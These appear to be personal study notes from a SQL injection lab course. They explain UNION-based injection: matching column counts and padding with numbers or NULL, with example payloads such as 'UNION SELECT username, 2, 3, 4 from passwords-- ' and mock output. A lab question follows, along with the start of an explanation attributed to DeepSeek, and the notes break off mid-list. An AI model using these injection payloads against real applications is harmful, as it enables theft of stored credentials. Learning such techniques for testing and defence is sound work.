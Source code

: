 Tip: For advanced SQL injection, we may want to simply use 'NULL' to fill other columns, as 'NULL' fits all data types.

The `products` table has two columns in the above example, so we have to `UNION` with two columns. If we only wanted to get one column 'e.g. `username`', we have to do `username, 2`, such that we have the same number of columns:

```sql
SELECT * from products where product_id = '1' UNION SELECT username, 2 from passwords
```

If we had more columns in the table of the original query, we have to add more numbers to create the remaining required columns. For example, if the original query used `SELECT` on a table with four columns, our `UNION` injection would be:

```sql
UNION SELECT username, 2, 3, 4 from passwords-- '
```

This query would return:

```shell-session
mysql> SELECT * from products where product_id UNION SELECT username, 2, 3, 4 from passwords-- '

+-----------+-----------+-----------+-----------+
| product_1 | product_2 | product_3 | product_4 |
+-----------+-----------+-----------+-----------+
|   admin   |    2      |    3      |    4      |
+-----------+-----------+-----------+-----------+
```

As we can see, our wanted output of the '`UNION SELECT username from passwords`' query is found at the first column of the second row, while the numbers filled the remaining columns.

# Question
---

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250131165907.png)

We can use the following in order to check:

```ad-hint
1. `select * from employees limit 5;`
2. `select * from departments limit 5;`
3. `select dept_no FROM departments UNION select emp_no FROM employees;`
```

Let's ask DeepSeek for a further understanding of the process:


#### **1. `SELECT * FROM employees LIMIT 5;`**

- **Purpose**:  
    This query retrieves the **first 5 rows** from the `employees` table.  
    You’re checking:
    
    - The structure of the table (e.g., columns like `emp_no`, `first_name`, etc.).
        